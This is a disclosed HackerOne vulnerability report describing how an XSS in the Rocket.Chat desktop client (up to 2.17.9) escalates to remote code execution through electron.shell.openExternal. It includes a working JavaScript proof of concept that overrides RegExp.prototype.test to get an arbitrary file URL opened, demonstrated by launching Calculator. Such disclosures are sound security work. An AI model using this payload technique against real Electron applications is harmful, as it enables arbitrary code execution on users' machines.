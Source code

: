 # XSS leads to RCE on the RocketChat desktop client.

## Report Details
- **Report ID**: 899964
- **URL**: https://hackerone.com/reports/899964
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-06-16T21:43:42.695Z
- **Disclosed**: 2021-01-01T14:15:11.203Z

## Reporter
- **Username**: fabianfreyer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
**Summary:** It is possible to call `electron.shell.openExternal` from javascript inside a server webview.

**Description:** The document `onclick` handler allows executing `electron.shell.openExternal` by crafting an attacker-controlled link and dispatching a `click` event on it after overwriting `Regex.test`.

## Releases Affected:

  * Rocket.Chat Desktop Client up to version 2.17.9

## Steps To Reproduce (from initial installation to vulnerability):

  1. Have a XSS vulnerability such as #894462 or #899954.
  2. Call the following payload (for macos, adjust for other OSes as required):

```js
(function() {
    const payload = `file:///System/Applications/Calculator.app`;
    var counter = 0;
    var target = document.createElement(`a`);
    target.setAttribute(`href`, payload);
    document.body.appendChild(target);
    var old_test = RegExp.prototype.test;
    RegExp.prototype.test = function (s) {
        if (s === payload) {
            return (++counter > 3);
        }
        return old_test.call(this, s);
    };
    target.dispatchEvent(new Event(`click`));
})();
```

  3. Browse to a page with the XSS payload.
  4. Use your freshly opened calculator to calculate the result of 7*191.

## Impact

An attacker with a XSS vulnerability in RocketChat such as #894462 or #899954 can call `electron.shell.openExternal` with arbitrary URLs, leading to arbitrary command execution.

## Attachments
- rc.png
